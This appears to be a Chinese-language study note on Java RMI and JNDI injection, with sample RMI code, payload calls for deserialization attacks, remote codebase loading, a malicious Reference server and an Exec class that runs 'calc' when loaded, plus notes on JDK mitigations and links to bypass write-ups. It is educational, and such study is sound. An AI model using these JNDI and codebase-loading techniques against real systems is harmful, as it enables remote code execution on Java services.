



https://paper.seebug.org/1420/

# RMI

RMI的构造需要实现四个类

- Remote接口 继承于Remote类
- 远程对象的实现类 继承于UnicastRemoteObject接口
- server服务端
- client客户端

```java
//server服务端
package RMI;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;
public class RMITEST {
 public static void main(String[] args) throws RemoteException,MalformedURLException {
 //实例化对象
 RemoteHello h = new RemoteHelloImpl();
 //⽤于导出远程对象，将此服务转换为远程服务接⼝
 RemoteHello skeleton = (RemoteHello)UnicastRemoteObject.exportObject(h, 0);
 //// 将RMI服务注册到1099端⼝:
 LocateRegistry.createRegistry(1099);
 // 注册此服务，服务名为"Hello":
 //Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
 Naming.rebind("Hello", h);
 }
}
```

```java
//Client客户端
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RMIClient {
 public static void main(String[] args) throws RemoteException,
NotBoundException {
 // 连接到服务器localhost，端⼝1099:
 Registry registry = LocateRegistry.getRegistry("localhost", 1099);
 // 查找名称为"Hello"的服务并强制转型为Hello接⼝:
 RemoteHello h = (RemoteHello) registry.lookup("Hello");
 // 正常调⽤接⼝⽅法:
 String rs = h.sayHello("rai4over");
 // 打印调⽤结果:
 System.out.println(rs);
 }
}
```

流程:



> 服务端创建远程对象， Skeleton 侦听⼀个随机的端⼝，以供客户端调⽤。 
>
> RMI Registry 启动，注册远程对象，通过 Name 和远程对象进⾏关联绑定，以供客户端进⾏查 
>
> 询。
>
> 客户端对 RMI Registry 发起请求，根据提供的 Name 得到 Stub 。
>
> Stub 中包含与 Skeleton 通信的信息（地址，端⼝等），两者建⽴通信， Stub 作为客户端代理
>
> 请求服务端代理 Skeleton 并进⾏远程⽅法调⽤。

因为RMI的数据传输是会经过序列化和反序列化的,可能会存在漏洞


## 客户端攻击服务端

如果RMI服务端的远程类中有可利用链,则可对server进行攻击

```java
//String rs = h.sayHello("rai4over");
 String rs = h.exp1(payload());          //exp1接收object类型参数,这里我们传入恶意payload
```

## 服务端攻击客户端

```java
//String rs = h.sayHello("rai4over");
//String rs = h.exp1(payload());
 Object rs = h.exp2();			//服务端存在恶意类,exp2,客户端远程加载后执行命令
```

## 远程动态加载代码

受害端使⽤该属性远程动态加载需要两个条件：

> - java.rmi.server.useCodebaseOnly 的值为 false 。为 true 时，禁⽤⾃动加载远程，仅从CLASSPATH 和当前虚拟机的 java.rmi.server.codebase 指定路径加载类⽂件。从 JDK6u45 、 7u21 开始， java.rmi.server.useCodebaseOnly 的默认值就是 true 。
> - 设置 securityManager 和 java.security.policy


在攻击的一方的代码中加入

```java
System.setProperty("java.rmi.server.codebase",
"http://127.0.0.1:8000/commons-collections-3.1.jar");
```

受害者:

```java
System.setProperty("java.security.policy",
RMIServer.class.getClassLoader().getResource("java.policy").getFile());
 RMISecurityManager securityManager = new RMISecurityManager();
 System.setSecurityManager(securityManager)
```

# 工厂模式



ProductImp 为远程对象， FactoryImpl 对象指向 ProductImp对象 ，⼤致流程如下：

- 创建 FactoryImpl对象 ，设置 FactoryImpl对象 的 指向ProductImp （通过HTTP等协议定位，可以位于其他服务器），具有指向功能的对象也可以叫做 reference对象 。
- 服务器端的 RMI Registry 启动，创建并注册 reference对象 （指向 FactoryImpl对象 ），通过Name 和 reference对象 进⾏关联绑定，以供客户端进⾏查询。
- 客户端对 RMI Registry 发起请求，根据提供的 Name 得到指向 FactoryImpl对象 的 reference对象 。
- 客户端加载 FactoryImpl对象 到本地，并调⽤ FactoryImpl对象 的⽅法，得到指向 ProductImp对象 的 reference对象 。
- 客户端加载 ProductImp对象 到本地，并调⽤ ProductImp对象 的⽅法，得到最终结果。这⾥执⾏远程对象的⽅法的是RMI通讯的客户端，为攻击客户端的⽅式，是在具体的代码和利⽤场景可

# JNDI注⼊

当 `lookup` 函数的参数 url 可控时，就是所谓的JNDI注⼊，使⽤的其实就是⼯⼚模式。

client:

```java
Context context = new  InitialContext();
context.lookup(serverURL:9527/exec);
```

server:

```java
Registry registry = LocateRegistry.createRegistry(9527);
Reference exec = new Reference("Exec", "Exec", "http://127.0.0.1:8080/");
ReferenceWrapper refWrap = new ReferenceWrapper(exec);
System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:9527/exec");
                                                                                                                                                             
```

Exec:

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;
public class Exec implements ObjectFactory   //这里如果实现了ObjectFactory接口,在调用过程中就会调用getObjectInstance方法
{    static 
{        
    System.err.println("Pwned");        
 try {            String[] cmd = {"calc"};           
      java.lang.Runtime.getRuntime().exec(cmd);        
     } 
 catch ( Exception e ) {           
     e.printStackTrace();       
 }    
}    
 public Object getObjectInstance(Object obj, Name name, Context nameCtx,                                    Hashtable<?, ?> environment) throws Exception {        
     return null;    
 }
}
```

> 我们在我们服务器的8080端口放上我们的Exec.class恶意类,然后构建一个Refer对象,client利用lookup加载这个Refer对象,即可将Exec.class加载到本地调用。

References主要记录了如下信息

```java
protected String className;protected Vector<RefAddr> addrs = null;protected String classFactory = null;protected String classFactoryLocation = null;
```

其中classFactoryLocation实际上是LDAP或者RMI的地址

## 相关配置

> 在RMI服务中引用远程对象将受本地Java环境限制即本地的java.rmi.server.useCodebaseOnly配置必须为false(允许加载远程对象)，如果该值为true则禁止引用远程对象。除此之外被引用的ObjectFactory对象还将受到com.sun.jndi.rmi.object.trustURLCodebase配置限制，如果该值为false(不信任远程引用对象)一样无法调用远程的引用对象。

```
JDK 5 U45,JDK 6 U45,JDK 7u21,JDK 8u121开始java.rmi.server.useCodebaseOnly默认配置已经改为了true。JDK 6u132, JDK 7u122, JDK 8u113开始com.sun.jndi.rmi.object.trustURLCodebase默认值已改为了false。
```

## 源码分析

getObjectInstance函数

```java
if (ref != null) {            
    String f = ref.getFactoryClassName();                       
    if (f != null) {   // if reference identifies a factory, use exclusively                
        factory = getObjectFactoryFromReference(ref, f); //触发点1                                
        if (factory != null) {                                    
            return factory.getObjectInstance(ref, name, nameCtx,environment); //触发点2                   
        }                                
        // No factory found, so return original refInfo.                                
        // Will reach this point if factory class is not in                                
        // class path and reference does not contain a URL for it                                
        return refInfo;
```

在getObjectInstance函数中，一共有两处可执行RMI中定义的恶意代码的地方，一处是getObjectFactoryFromReference，在getObjectFactoryFromReference中会通过获取到对应的Class对象，通过clas.newInstance()触发恶意构造函数

```
return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
```

另外一处，则是通过实例化的类，调用其getObjectInstance函数，


在实战过程中，context.lookup直接被外部调用的情况比较少，但是我们可以通过间接调用context.lookup实现JNDI的注入，JdbcRowSetImpl就是这样一条利用链。后面会在Fastjson中用到



https://0day.design/2020/02/04/JNDI%E6%B3%A8%E5%85%A5%E9%AB%98%E7%89%88%E6%9C%ACjdk%E7%BB%95%E8%BF%87%E5%AD%A6%E4%B9%A0/

https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

https://www.mi1k7ea.com/2020/09/07/%E6%B5%85%E6%9E%90%E9%AB%98%E4%BD%8E%E7%89%88JDK%E4%B8%8B%E7%9A%84JNDI%E6%B3%A8%E5%85%A5%E5%8F%8A%E7%BB%95%E8%BF%87/#%E5%88%A9%E7%94%A8%E6%9C%AC%E5%9C%B0%E6%81%B6%E6%84%8FClass%E4%BD%9C%E4%B8%BAReference-Factory

